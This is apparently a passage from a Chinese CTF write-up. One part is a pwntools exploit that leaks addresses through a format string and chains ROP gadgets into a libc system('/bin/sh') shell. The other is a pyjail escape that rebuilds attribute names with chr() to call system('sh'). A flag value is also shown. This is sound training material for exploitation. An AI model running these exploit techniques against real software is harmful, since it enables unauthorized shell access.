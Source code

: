 ```python
    p.sendline(b'1')
    p.sendline(b'1')
    p.sendline(b'2')
p.sendline(b'1')
p.sendline(b'1')
p.sendline(b'2')
p.sendline(b'%p')
p.recvuntil(b'Balance : 0x')
pie_addr = int(p.recv(14), 16)-0x4090
#print(hex(pie_addr))

#获得基地址
offset = 88 
puts_plt= pie_addr+e.plt['puts'] 
puts_got= pie_addr+e.got['puts'] 
write_addr = 0x14bc + pie_addr
pop_rdi_ret_addr = 0x11f1 + pie_addr
payload1 = b"a" * offset + p64(pop_rdi_ret_addr) + p64(puts_got) + p64(puts_plt) + p64(write_addr)
p.sendline(b'3')
p.sendline(payload1)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
#获得libc的各个连接
ret_addr = 0x0014bb + pie_addr
libc_base = puts_addr - libc.sym["puts"]
system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * offset
payload += p64(ret_addr) #需要添加一个ret，仅仅用于栈平衡
payload += p64(pop_rdi_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)
p.sendline(payload)

p.interactive()
```

得flag：SYC{38057ca3-a7c6-438b-a4c3-48a3fe8e27c6}

## Welcome_jail

根据提示可以得知是pyjail：除去禁用的字符可以这样构建。

```python
getattr(getattr(getattr(getattr(().__class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()[-4],chr(95)+chr(95)+chr(105)+chr(110)+chr(105)+chr(116)+chr(95)+chr(95)),chr(95)+chr(95)+chr(103)+chr(108)+chr(111)+chr(98)+chr(97)+chr(108)+chr(115)+chr(95)+chr(95))[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(39)+chr(115)+chr(104)+chr(39))
```

这就是神奇魔法我们获得了shell：
